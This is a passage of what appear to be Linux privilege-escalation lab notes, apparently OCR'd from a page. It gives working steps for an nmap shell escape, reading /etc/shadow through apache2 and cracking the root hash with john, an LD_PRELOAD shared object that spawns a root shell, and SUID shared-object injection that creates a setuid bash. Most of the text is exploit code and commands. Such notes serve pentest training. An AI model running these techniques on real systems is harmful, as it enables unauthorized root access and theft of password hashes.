 ```bash
$sudo nmap --interactive
nmap>!bash
```

## Privilege Escalation - Abusing Intended Functionality

1. In command prompt type:
   ```$sudo apache2 -f /etc/shadow```
2. From the output, copy the root hash and break it using john

```bash
$echo 'root has here' > hash.txt
$john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Privilege Escalation - LD_PRELOAD

In command prompt type ```sudo -l``` notice that LD_PRELOAD environment variable is intact.

Exploitation

Open a text editior and type

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Save the file as x.c then execute ```gcc -fPIC -shared -o /tmp/x.so s.c -nostartfiles```. Then ```sudo LD_PRELOAD=/tmp/x.so apache2``` after this we have a root shell to the system.

## Privilege Escalation - Shared Object Injection

In comman prompt type ```find / -type f -perm -04000 -ls 2>/dev/null``` make note of all the suid binaries. In command line type : ```strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"``` From the output, we can see that a .so file is missing from a writable directory.

#### Exploitation

In comand prompt type: ```mkdir /home/user/.config``` then ```cd /home/user/.config``` after that ```vi libcalc.c``` add the code below to the file

```c
#include <stdio.h>
#include <stdlib.h>

static void inject()__attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
